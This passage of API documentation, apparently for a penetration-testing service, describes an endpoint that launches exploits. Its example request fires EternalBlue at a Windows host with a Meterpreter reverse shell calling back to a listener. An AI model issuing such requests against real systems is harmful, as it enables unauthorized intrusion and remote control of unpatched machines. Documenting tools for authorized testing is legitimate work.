 ```json
    ]
  }
}
```

### Execute Exploit

**POST /exploits/execute**

Execute an exploit against a target.

```http
POST /exploits/execute
Authorization: Bearer <token>
Content-Type: application/json

{
  "target_id": 1,
  "exploit_name": "exploit/windows/smb/ms17_010_eternalblue",
  "payload": "windows/x64/meterpreter/reverse_tcp",
  "options": {
    "RHOSTS": "192.168.1.100",
    "RPORT": 445,
    "LHOST": "192.168.1.50",
    "LPORT": 4444
  },
  "advanced_options": {
    "VERBOSE": true,
    "CheckModule": true
  }
}
```

**Response:**
```json
{
  "success": true,
  "data": {
    "execution_id": "exec_001",
    "status": "running",
    "target": "192.168.1.100",
    "exploit": "exploit/windows/smb/ms17_010_eternalblue",
    "started_at": "2025-07-31T12:00:00Z",
    "estimated_duration": 60,
    "message": "Exploit execution initiated"
  }
}
```

### Get Exploitation Status

**GET /exploits/execute/{execution_id}**
